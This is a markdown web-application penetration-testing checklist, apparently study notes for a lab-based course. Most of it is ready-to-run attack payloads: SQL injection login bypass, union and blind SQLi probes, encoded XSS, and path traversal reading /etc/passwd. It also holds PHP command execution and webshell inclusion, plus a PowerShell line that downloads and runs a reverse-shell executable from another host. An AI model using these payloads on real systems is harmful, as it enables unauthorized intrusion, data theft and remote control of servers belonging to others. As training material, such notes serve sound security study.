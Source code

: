 - [ ] Look over every page
- [ ] Take note of people's names for usernames
- [ ] Take note of any forms and ways to send a post request to the server
- [ ] Try SQL Injection on **EVERY** form ([cheatsheet](https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/))
```c
admin' or '1'='1' -- //
```
- [ ] Try XSS on **EVERY** form ([cheatsheet](https://gist.github.com/sseffa/11031135))
```c
<script>alert(42)</script>
```
- [ ] Try encoded XSS Injection on **EVERY** form ([cheatsheet](https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/))
```c
<IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>
```
- [ ] Attempt basic path traversal
```c
curl http://192.168.xxx.xxx/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

#### If page ends with `.php`
- [ ] Try something like this to get commands to execute
```c
curl "http://192.168.xxx.xxx/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"
```
- [ ] PHP Webshell
```c
curl "http://mountaindesserts.com/meteor/index.php?page=http://192.168.119.3/simple-backdoor.php&cmd=ls
```

#### If command injection is possible on windows
- [ ] Check if the server is being run on windows or powershell
```c
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell`
```
- [ ] If powershell, create payload
```c
IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.45.218/reverse_shell.exe");.\reverse_shell.exe
```
- [ ] URL encode with [cyberchef](https://gchq.github.io/CyberChef/) and include as command

#### If SQL injection is possible
- [ ] Check this query to see if anything is being printed
```sql
SELECT @@version;
```
- [ ] Run this and change 1 to discover number of columns
```sql
ORDER BY 1-- //
```
- [ ] Attempt Union based payload
```sql
%' UNION SELECT database(), user(), @@version, null, null -- //
```
- [ ] Test for time-based SQLi payload
```
http://192.168.xxx.xxx/blindsqli.php?user=offsec' AND IF (1=1, sleep(3),'false') -- //
```
- [ ] Test for boolean-based SQLi payload
```sql
http://192.168.50.16/blindsqli.php?user=offsec' AND 1=1 -- //
```
